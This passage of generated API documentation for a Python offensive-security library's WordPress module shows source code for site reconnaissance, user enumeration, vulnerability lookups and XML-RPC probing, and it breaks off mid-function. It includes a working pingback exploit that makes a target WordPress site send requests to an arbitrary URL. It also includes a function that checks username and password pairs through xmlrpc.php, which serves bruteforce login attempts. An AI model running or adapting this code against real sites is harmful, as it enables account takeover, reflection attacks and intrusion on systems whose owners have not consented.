            if eval(&#39;{}&gt;{} and {}&lt;{}&#39;.format(version_string_to_list(software_version),version_string_to_list(version.split(&#39;-&#39;)[0].strip()),version_string_to_list(software_version),version_string_to_list(version.split(&#39;-&#39;)[1].strip())))==True:
                results.append(cve)
    return results</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.fetch_wp_exploits"><code class="name flex">
<span>def <span class="ident">fetch_wp_exploits</span></span>(<span>s, max_tries=3, proxy=None, user_agent=None, timeout=15, cookie=None, sleep_time_min=10, sleep_time_max=20, when_blocked_sleep=30)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def fetch_wp_exploits(s,max_tries=3,proxy=None,user_agent=None,timeout=15,cookie=None,sleep_time_min=10,sleep_time_max=20,when_blocked_sleep=30):
    if s[&#39;version&#39;].strip()==&#39;&#39;:
        return []
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    i=1
    l=[]
    result=[]
    tries=0
    while True:
        tries+=1
        #print(tries)
        if tries==max_tries:
            break
        try:
            r=requests.Session().get(&#39;https://wpscan.com/search?page={}&amp;text={}&#39;.format(i,s[&#39;name&#39;]),headers=hed,timeout=timeout,proxies=proxy,verify=False).text
            #print(r)
            data=json.loads(r.split(&#39;&#34;pageData&#34;:{&#34;props&#34;:{&#34;data&#34;:&#39;)[1].split(&#39;,&#34;metadata&#34;:{&#34;pageCount&#34;:&#39;)[0])
            if len(data)==0:
                break
            l+=data
            i+=1
            tries=0
        except Exception as ex:
            #raise(ex)
            time.sleep(when_blocked_sleep)
        time.sleep(random.randint(sleep_time_min,sleep_time_max))
    for x in l:
        x[&#39;exploit_url&#39;]=&#39;https://wpscan.com/vulnerability/&#39;+x[&#39;id&#39;]
    return extract_with_versions(l,s[&#39;version&#39;])</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.get_wp_infos"><code class="name flex">
<span>def <span class="ident">get_wp_infos</span></span>(<span>u, max_wpscan_tries=3, cookie=None, user_agent=None, timeout=15, proxy=None, user_enum_start=1, user_enum_end=20, wpscan_cookie=None, sleep_time_min=10, sleep_time_max=20, when_blocked_sleep=30, logs=True, crt_timeout=120, wayback_timeout=120, subdomain_check_timeout=10, max_wayback_urls=10, subdomains_only=True, headers={}, api_key=None)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def get_wp_infos(u,max_wpscan_tries=3,cookie=None,user_agent=None,timeout=15,proxy=None,user_enum_start=1,user_enum_end=20,wpscan_cookie=None,sleep_time_min=10,sleep_time_max=20,when_blocked_sleep=30,logs=True,crt_timeout=120,wayback_timeout=120,subdomain_check_timeout=10,max_wayback_urls=10,subdomains_only=True,headers={},api_key=None):
    domain=u.split(&#39;://&#39;)[1].split(&#39;/&#39;)[0].split(&#39;:&#39;)[0]
    root_domain=extract_root_domain(domain)
    ip=socket.gethostbyname(domain.split(&#39;:&#39;)[0])
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    response = requests.Session().get(u, headers=hed, proxies=proxy, timeout=timeout, verify=False)
    server=response.headers.get(&#39;Server&#39;,&#39;&#39;)
    try:
        server_os=[x for x in server.split() if x.startswith(&#39;(&#39;)==True][0].replace(&#39;(&#39;,&#39;&#39;).replace(&#39;)&#39;,&#39;&#39;)
    except:
        server_os=&#39;&#39;
    backend=response.headers.get(&#39;X-Powered-By&#39;,&#39;&#39;)
    html_content = response.text

    # Parse the HTML content
    soup = BeautifulSoup(html_content, &#39;html.parser&#39;)

    # Find themes and plugins information
    themes = []
    plugins = []
    try:
        #print(response.split(&#39;&lt;meta name=&#34;generator&#34; content=&#34;&#39;)[1].split(&#39;&#34;&#39;)[0])
        wp_version=response.text.lower().split(&#39;&lt;meta name=&#34;generator&#34; content=&#34;wordpress&#39;)[1].split(&#39;&#34;&#39;)[0].strip()
    except Exception as ex:
        #raise(ex)
        wp_version=&#39;&#39;
    # Extract themes
    if logs==True:
        print(&#34;WordPress site info:\n\n\tURL: {}\n\tDomain: {}\n\tIP: {}\n\tServer: {}\n\tOS: {}\n\tBackend technology: {}\n\tWordPress version: {}\n&#34;.format(u,domain,ip,server,server_os,backend,wp_version))
    clickj=page_clickjacking(u,request_headers=response.headers)
    if logs==True:
        print(&#34;[i] Looking for subdomains...&#34;)
    subs=get_subdomains(root_domain,logs=logs, crt_timeout=crt_timeout,user_agent=user_agent,cookie=cookie,wayback_timeout=wayback_timeout,subdomain_check_timeout=subdomain_check_timeout,max_wayback_urls=max_wayback_urls,proxy=proxy,subdomains_only=subdomains_only)
    if logs==True:
        print(&#34;[i] Cheking if we can sniff some cookies over some links...&#34;)
        print()
    media_non_ssl=sniffable_links(u,content=response.text,logs=logs,request_headers=response.headers)
    if logs==True:
        print()
    theme_links = soup.find_all(&#39;link&#39;, rel=&#39;stylesheet&#39;)
    for link in theme_links:
        href = link.get(&#39;href&#39;)
        #print(href)
        if &#39;themes&#39; in href:
            try:
                theme_name = href.split(&#39;/themes/&#39;)[1].split(&#39;/&#39;)[0]
                try:
                    version=href.split(&#39;?&#39;)[1].split(&#39;=&#39;)[1]
                except:
                    version=&#39;&#39;
                theme={&#39;name&#39;:theme_name,&#39;version&#39;:version}
                if theme not in themes:
                    themes.append(theme)
            except:
                pass
        elif &#39;plugins&#39; in href:
            try:
                plugin_name = href.split(&#39;/plugins/&#39;)[1].split(&#39;/&#39;)[0]
                try:
                    version=href.split(&#39;?&#39;)[1].split(&#39;=&#39;)[1]
                except:
                    version=&#39;&#39;
                plugin={&#39;name&#39;:plugin_name,&#39;version&#39;:version}
                if plugin not in plugins:
                    plugins.append(plugin)
            except:
                pass
    users_json_exposed=True
    json_path=u+&#39;/wp-json/wp/v2/users&#39;
    if logs==True:
        print(&#39;[i] Fetching users from: {}&#39;.format(json_path))
    json_users=wp_users(u,timeout=timeout,cookie=cookie,user_agent=user_agent,proxy=proxy,headers=headers)
    if logs==True:
        for x in json_users:
            print(&#39;\t[+] id: {} | name: {} | slug: {}&#39;.format(x[&#39;id&#39;],x[&#39;name&#39;],x[&#39;slug&#39;]))
        print()
    if json_users==[]:
        users_json_exposed=False
    can_enumerate_users=True
    if logs==True:
        print(&#39;[i] Trying enumerating the authors...&#39;)
    enumerated_users= wp_users_enumeration(u,logs=logs,timeout=timeout,cookie=cookie,user_agent=user_agent,proxy=proxy,start=user_enum_start,end=user_enum_end,headers=headers)
    if enumerated_users==[]:
        can_enumerate_users=False
    else:
        if logs==True:
            print()
            for x in enumerated_users:
                print(&#39;\t[+] id: {} | name: {} | slug: {}&#39;.format(x[&#39;id&#39;],x[&#39;name&#39;],x[&#39;slug&#39;]))
    if logs==True:
        print()
        print(&#39;[i] Checking if XMLRPC is enabled from: {}&#39;.format(u+&#39;/xmlrpc.php&#39;))
    xmlrpcs=wp_xmlrpc_methods(u,timeout=timeout,cookie=cookie,user_agent=user_agent,proxy=proxy,headers=headers)
    can_b_u=(&#34;wp.getUsersBlogs&#34; in xmlrpcs) and (&#34;system.multicall&#34; in xmlrpcs)
    can_pb=&#34;pingback.ping&#34; in xmlrpcs
    if logs==True:
        if len(xmlrpcs)&gt;0:
            print(&#39;[+] enabled&#39;)
            if can_b_u==True:
                print(&#39;\t[+] Vulnerable to users bruteforce&#39;)
            if can_pb==True:
                print(&#39;\t[+] Vulnerable to pingback&#39;)
        else:
            print(&#39;\t[-] disabled&#39;)
        print()
    wp_vulns=[]
    if wp_version!=&#39;&#39;:
        if logs==True:
            print(&#39;[i] looking for exploits for version: {}\n&#39;.format(wp_version))
        wpvulns=vulners_search(&#39;wordpress&#39;,version=wp_version,proxy=proxy,api_key=api_key)
        for x in wpvulns:
            if &#39;wordpress&#39; in x[&#39;title&#39;].lower() or &#39;wordpress&#39; in x[&#39;description&#39;].lower():
                wp_vulns.append(x)
        for x in wp_vulns:
            for i in [&#39;cpe&#39;, &#39;cpe23&#39;, &#39;cwe&#39;, &#39;affectedSoftware&#39;]:
                try:
                    del x[i]
                except:
                    pass
        if logs==True:
            if len(wp_vulns)==0:
                print(&#39;\t[-] none was found&#39;)
            else:
                for x in wp_vulns:
                    print(&#34;\tTitle : {}\n\tDescription: {}\n\tLink: {}&#34;.format(x[&#39;title&#39;],x[&#39;description&#39;],x[&#39;href&#39;]))
                    print()
    backend_technology_exploits={}
    if backend!=&#39;&#39;:
        bk=[]
        for back in backend.split():
            if logs==True:
                print(&#39;[i] looking for exploits for : {}\n&#39;.format(back))
            if &#39;/&#39; not in back:
                if logs==True:
                    print(&#39;\t[-] unknown version\n&#39;)
            else:
                bk=vulners_search(back.split(&#39;/&#39;)[0].lower(),version=back.split(&#39;/&#39;)[1],proxy=proxy,api_key=api_key)
            for x in bk:
                for i in [&#39;cpe&#39;, &#39;cpe23&#39;, &#39;cwe&#39;, &#39;affectedSoftware&#39;]:
                    try:
                        del x[i]
                    except:
                        pass
            backend_technology_exploits.update({back:bk})
            if logs==True:
                if len(bk)==0:
                    print(&#39;\t[-] none was found&#39;)
                else:
                    for x in bk:
                        print(&#34;\tTitle : {}\n\tDescription: {}\n\tLink: {}&#34;.format(x[&#39;title&#39;],x[&#39;description&#39;],x[&#39;href&#39;]))
                        print()
    server_exploits={}
    if server!=&#39;&#39;:
        for sv in server.split():
            if sv.startswith(&#39;(&#39;)==False:
                sv_e=[]
                if logs==True:
                    print(&#39;[i] looking for exploits for : {}\n&#39;.format(sv))
                if &#39;/&#39; in sv:
                    sv_e=vulners_search(sv.split(&#39;/&#39;)[0].lower(),version=sv.split(&#39;/&#39;)[1],proxy=proxy,api_key=api_key)
                else:
                    if logs==True:
                        print(&#39;\t[-] unknown version\n&#39;)
                for x in sv_e:
                    for i in [&#39;cpe&#39;, &#39;cpe23&#39;, &#39;cwe&#39;, &#39;affectedSoftware&#39;]:
                        try:
                            del x[i]
                        except:
                            pass
                server_exploits.update({sv:sv_e})
                if logs==True:
                    if len(sv_e)==0:
                        print(&#39;\t[-] none was found&#39;)
                    else:
                        for x in sv_e:
                            print(&#34;\tTitle : {}\n\tDescription: {}\n\tLink: {}&#34;.format(x[&#39;title&#39;],x[&#39;description&#39;],x[&#39;href&#39;]))
                            print()
    if len(themes)&gt;0:
        if logs==True:
            print(&#39;[i] looking for exploits for the themes:\n&#39;)
    for x in themes:
        if logs==True:
            print(&#39;[i] Theme: {} | Version: {}\n&#39;.format(x[&#39;name&#39;],x[&#39;version&#39;]))
        x[&#39;exploits&#39;]=fetch_wp_exploits(x,max_tries=max_wpscan_tries,proxy=proxy,user_agent=user_agent,timeout=timeout,cookie=wpscan_cookie,sleep_time_min=sleep_time_min,sleep_time_max=sleep_time_max,when_blocked_sleep=when_blocked_sleep)
        if logs==True:
            for i in x[&#39;exploits&#39;]:
                print(&#34;\tTitle: {}\n\tLink: {}&#34;.format(i[&#39;title&#39;],i[&#39;exploit_url&#39;]))
                print()
    if len(plugins)&gt;0:
        if logs==True:
            print()
            print(&#39;[i] looking for exploits for the plugins:\n&#39;)
    for x in plugins:
        if logs==True:
            print(&#39;[i] Plugin: {} | Version: {}\n&#39;.format(x[&#39;name&#39;],x[&#39;version&#39;]))
        x[&#39;exploits&#39;]=fetch_wp_exploits(x,max_tries=max_wpscan_tries,proxy=proxy,user_agent=user_agent,timeout=timeout,cookie=wpscan_cookie,sleep_time_min=sleep_time_min,sleep_time_max=sleep_time_max,when_blocked_sleep=when_blocked_sleep)
        if logs==True:
            for i in x[&#39;exploits&#39;]:
                print(&#34;\tTitle: {}\n\tLink: {}&#34;.format(i[&#39;title&#39;],i[&#39;exploit_url&#39;]))
                print()
    return {&#39;url&#39;:u,&#39;domain&#39;:domain,&#39;ip&#39;:ip,&#39;root_domain&#39;:root_domain,&#39;sub_domains&#39;:subs,&#39;server&#39;:server,&#39;os&#39;:server_os,&#39;backend_technology&#39;:backend,&#39;wordpress_version&#39;:wp_version,&#39;sniffable_links&#39;:media_non_ssl,&#39;clickjackable&#39;:clickj,&#39;themes&#39;:themes,&#39;plugins&#39;:plugins,&#39;users_json_exposed&#39;:users_json_exposed,&#39;exopsed_json_users&#39;:{&#39;users&#39;:json_users,&#39;path&#39;:json_path},&#39;can_enumerate_users&#39;:can_enumerate_users,&#39;enumerated_users&#39;:enumerated_users,&#39;enabled_xmlrpc_methods&#39;:xmlrpcs,&#34;xmlrpc_bruteforce_users&#34;:can_b_u,&#34;pingback_enabled&#34;:can_pb,&#34;exploits&#34;:wp_vulns,&#39;backend_technology_exploits&#39;:backend_technology_exploits,&#39;server_exploits&#39;:server_exploits}</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.version_string_to_list"><code class="name flex">
<span>def <span class="ident">version_string_to_list</span></span>(<span>version)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def version_string_to_list(version):
    return [int(x) for x in version.split(&#39;.&#39;)]</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wp_user"><code class="name flex">
<span>def <span class="ident">wp_user</span></span>(<span>u, path='/wp-json/wp/v2/users/', user=1, user_agent=None, cookie=None, timeout=10, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"><p>this function is to return all informations about a WP user with a given index integer</p></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wp_user(
    u,
    path=&#34;/wp-json/wp/v2/users/&#34;,
    user=1,
    user_agent=None,
    cookie=None,
    timeout=10,
    proxy=None,
    headers={}
):
    &#34;&#34;&#34;
    this function is to return all informations about a WP user with a given index integer&#34;&#34;&#34;
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    hed.update(headers)
    u += path + str(user)
    try:
        r = requests.Session().get(u, headers=hed, proxies=proxy, timeout=timeout, verify=False)
        if (&#39;{&#34;id&#34;:&#39; in r.text) and (&#39;&#34;name&#34;:&#34;&#39; in r.text):
            return json.loads(r.text)
    except Exception as e:
        pass</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wp_users"><code class="name flex">
<span>def <span class="ident">wp_users</span></span>(<span>u, path='/wp-json/wp/v2/users', timeout=10, user_agent=None, cookie=None, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"><p>this function is to get WP users</p></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wp_users(
    u, path=&#34;/wp-json/wp/v2/users&#34;, timeout=10, user_agent=None, cookie=None, proxy=None, headers={}
):
    &#34;&#34;&#34;
    this function is to get WP users&#34;&#34;&#34;
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    u += path
    try:
        r = requests.Session().get(u, headers=hed, proxies=proxy, timeout=timeout, verify=False)
        if (&#39;{&#34;id&#34;:&#39; in r.text) and (&#39;&#34;name&#34;:&#34;&#39; in r.text):
            a = json.loads(r.text)
            users = []
            for x in range(len(a)):
                users.append(
                    {&#34;id&#34;: a[x][&#34;id&#34;], &#34;slug&#34;: a[x][&#34;slug&#34;], &#34;name&#34;: a[x][&#34;name&#34;]}
                )
            return users
    except Exception as e:
        return []
    return []</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wp_users_enumeration"><code class="name flex">
<span>def <span class="ident">wp_users_enumeration</span></span>(<span>u, path='/', timeout=15, user_agent=None, cookie=None, proxy=None, start=1, end=20, logs=True, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wp_users_enumeration(
    u,
    path=&#34;/&#34;,
    timeout=15,
    user_agent=None,
    cookie=None,
    proxy=None,
    start=1,
    end=20,
    logs=True,
    headers={}
):
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    d = u.split(&#34;://&#34;)[1].split(&#34;/&#34;)[0]
    u = u.split(d)[0] + d
    l = []
    for x in range(start, end + 1):
        try:
            r = requests.Session().get(
                u + path + &#34;?author=&#34; + str(x),
                headers=hed,
                proxies=proxy,
                timeout=timeout,
                verify=False,
            ).text
            a = r.split(&#39;&lt;meta property=&#34;og:title&#34; content=&#34;&#39;)[1].split(&#34;&gt;&#34;)[0]
            b=r.split(&#39;&lt;meta property=&#34;og:url&#34; content=&#34;&#39;)[1].split(&#34;&gt;&#34;)[0]
            c=b.split(&#39;/author/&#39;)[1].split(&#39;/&#39;)[0]
            if &#34;,&#34; in a:
                a = a.split(&#34;,&#34;)[0]
                l.append({&#39;id&#39;:x, &#39;name&#39;:a,&#39;slug&#39;:c})
                if logs == True:
                    print(
                        &#34;\t[+] id: {} | name: {} | slug: {}&#34;.format(
                            x,#.encode(&#34;utf-8&#34;, &#34;replace&#34;), 
                            a,
                            c
                        )
                    )
        except KeyboardInterrupt:
            break
        except:
            pass
    return l</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wp_version"><code class="name flex">
<span>def <span class="ident">wp_version</span></span>(<span>u, timeout=15, user_agent=None, cookie=None, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wp_version(u, timeout=15, user_agent=None, cookie=None, proxy=None,headers={}):
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    try:
        r = requests.Session().get(
            u, headers=hed, proxies=proxy, timeout=timeout, verify=False
        ).text
        return (
            r.split(&#39;&lt;meta name=&#34;generator&#34; content=&#34;&#39;)[1]
            .split(&#39;&#34;&#39;)[0]
            .strip()
            .split(&#34; &#34;)[1]
        )
    except:
        pass</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wp_xmlrpc_bruteforce"><code class="name flex">
<span>def <span class="ident">wp_xmlrpc_bruteforce</span></span>(<span>u, user_agent=None, cookie=None, path='/xmlrpc.php', timeout=10, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wp_xmlrpc_bruteforce(
    u, user_agent=None, cookie=None, path=&#34;/xmlrpc.php&#34;, timeout=10, proxy=None,headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt; 
&lt;methodCall&gt; 
&lt;methodName&gt;system.listMethods&lt;/methodName&gt; 
&lt;params&gt;&lt;/params&gt; 
&lt;/methodCall&gt;
&#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        if &#34;wp.getUsersBlogs&#34; in [
            x.replace(&#34;&lt;/string&gt;&lt;/value&gt;&#34;, &#34;&#34;).replace(&#34;&lt;value&gt;&lt;string&gt;&#34;, &#34;&#34;).strip()
            for x in r.text.split(&#34;&lt;data&gt;&#34;)[1].split(&#34;&lt;/data&gt;&#34;)[0].strip().split(&#34;\n&#34;)
        ]:
            return True
    except:
        pass
    return False</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wp_xmlrpc_mass_bruteforce"><code class="name flex">
<span>def <span class="ident">wp_xmlrpc_mass_bruteforce</span></span>(<span>u, user_agent=None, cookie=None, path='/xmlrpc.php', timeout=10, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wp_xmlrpc_mass_bruteforce(
    u, user_agent=None, cookie=None, path=&#34;/xmlrpc.php&#34;, timeout=10, proxy=None, headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt; 
&lt;methodCall&gt; 
&lt;methodName&gt;system.listMethods&lt;/methodName&gt; 
&lt;params&gt;&lt;/params&gt; 
&lt;/methodCall&gt;
&#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        l = [
            x.replace(&#34;&lt;/string&gt;&lt;/value&gt;&#34;, &#34;&#34;).replace(&#34;&lt;value&gt;&lt;string&gt;&#34;, &#34;&#34;).strip()
            for x in r.text.split(&#34;&lt;data&gt;&#34;)[1].split(&#34;&lt;/data&gt;&#34;)[0].strip().split(&#34;\n&#34;)
        ]
        if (&#34;wp.getUsersBlogs&#34; in l) and (&#34;system.multicall&#34; in l):
            return True
    except:
        pass
    return False</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wp_xmlrpc_methods"><code class="name flex">
<span>def <span class="ident">wp_xmlrpc_methods</span></span>(<span>u, user_agent=None, cookie=None, path='/xmlrpc.php', timeout=10, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wp_xmlrpc_methods(
    u, user_agent=None, cookie=None, path=&#34;/xmlrpc.php&#34;, timeout=10, proxy=None,headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt; 
&lt;methodCall&gt; 
&lt;methodName&gt;system.listMethods&lt;/methodName&gt; 
&lt;params&gt;&lt;/params&gt; 
&lt;/methodCall&gt;
&#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        return [
            x.replace(&#34;&lt;/string&gt;&lt;/value&gt;&#34;, &#34;&#34;).replace(&#34;&lt;value&gt;&lt;string&gt;&#34;, &#34;&#34;).strip()
            for x in r.text.split(&#34;&lt;data&gt;&#34;)[1].split(&#34;&lt;/data&gt;&#34;)[0].strip().split(&#34;\n&#34;)
        ]
    except:
        pass
    return []</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wp_xmlrpc_pingback"><code class="name flex">
<span>def <span class="ident">wp_xmlrpc_pingback</span></span>(<span>u, user_agent=None, test_url='https://www.google.com/', cookie=None, path='/xmlrpc.php', timeout=10, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wp_xmlrpc_pingback(
    u,
    user_agent=None,
    test_url=&#34;https://www.google.com/&#34;,
    cookie=None,
    path=&#34;/xmlrpc.php&#34;,
    timeout=10,
    proxy=None,
    headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt; 
&lt;methodCall&gt; 
&lt;methodName&gt;system.listMethods&lt;/methodName&gt; 
&lt;params&gt;&lt;/params&gt; 
&lt;/methodCall&gt;
&#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        l = [
            x.replace(&#34;&lt;/string&gt;&lt;/value&gt;&#34;, &#34;&#34;).replace(&#34;&lt;value&gt;&lt;string&gt;&#34;, &#34;&#34;).strip()
            for x in r.text.split(&#34;&lt;data&gt;&#34;)[1].split(&#34;&lt;/data&gt;&#34;)[0].strip().split(&#34;\n&#34;)
        ]
        if &#34;pingback.ping&#34; in l:
            return True
    except:
        pass
    return False</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wp_xmlrpc_pingback_exploit"><code class="name flex">
<span>def <span class="ident">wp_xmlrpc_pingback_exploit</span></span>(<span>u, user_agent=None, target_url='https://www.google.com/', cookie=None, path='/xmlrpc.php', timeout=10, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wp_xmlrpc_pingback_exploit(
    u,
    user_agent=None,
    target_url=&#34;https://www.google.com/&#34;,
    cookie=None,
    path=&#34;/xmlrpc.php&#34;,
    timeout=10,
    proxy=None,
    headers={}
):
    url = u.split(&#34;://&#34;)[0] + &#34;://&#34; + urlparse(u).netloc
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    url += path
    post = (
        &#34;&#34;&#34;&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;
&lt;methodCall&gt;
&lt;methodName&gt;pingback.ping&lt;/methodName&gt;
&lt;params&gt;
&lt;param&gt;
&lt;value&gt;&lt;string&gt;&#34;&#34;&#34;
        + target_url
        + &#34;&#34;&#34;&lt;/string&gt;&lt;/value&gt;
&lt;/param&gt;
&lt;param&gt;
&lt;value&gt;&lt;string&gt;&#34;&#34;&#34;
        + u
        + &#34;&#34;&#34;&lt;/string&gt;&lt;/value&gt;
&lt;/param&gt;
&lt;/params&gt;
&lt;/methodCall&gt;
&#34;&#34;&#34;
    )
    try:
        r = requests.Session().post(
            url, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
    except:
        pass</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wpadmin"><code class="name flex">
<span>def <span class="ident">wpadmin</span></span>(<span>u, username, password, user_agent=None, cookie=None, path='/xmlrpc.php', timeout=10, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"><p>this function is to check the wordpress given logins using the xmlrpc.php file. if they are correct it returns True, else False</p></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wpadmin(
    u,
    username,
    password,
    user_agent=None,
    cookie=None,
    path=&#34;/xmlrpc.php&#34;,
    timeout=10,
    proxy=None,
    headers={}
):
    &#34;&#34;&#34;
    this function is to check the wordpress given logins using the xmlrpc.php file. if they are correct it returns True, else False&#34;&#34;&#34;
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;&lt;methodCall&gt;
&lt;methodName&gt;wp.getUsersBlogs&lt;/methodName&gt;
&lt;params&gt;
&lt;param&gt;&lt;value&gt;{}&lt;/value&gt;&lt;/param&gt;
&lt;param&gt;&lt;value&gt;{}&lt;/value&gt;&lt;/param&gt;
&lt;/params&gt;
&lt;/methodCall&gt;&#34;&#34;&#34;.format(
        username, password
    )
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        if &#34;isAdmin&#34; in r.text:
            return True
    except:
        pass
    return False</code></pre>
</details>
</dd>
<dt id="bane.scanners.cms.wp.wpadmin_mass"><code class="name flex">
<span>def <span class="ident">wpadmin_mass</span></span>(<span>u, word_list=[], user_agent=None, cookie=None, path='/xmlrpc.php', timeout=10, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"><p>this function is to check the wordpress given logins using the xmlrpc.php file. if they are correct it returns True, else False</p></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def wpadmin_mass(
    u,
    word_list=[],
    user_agent=None,
    cookie=None,
    path=&#34;/xmlrpc.php&#34;,
    timeout=10,
    proxy=None,
    headers={}
):
    &#34;&#34;&#34;
    this function is to check the wordpress given logins using the xmlrpc.php file. if they are correct it returns True, else False&#34;&#34;&#34;
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34;?&gt;
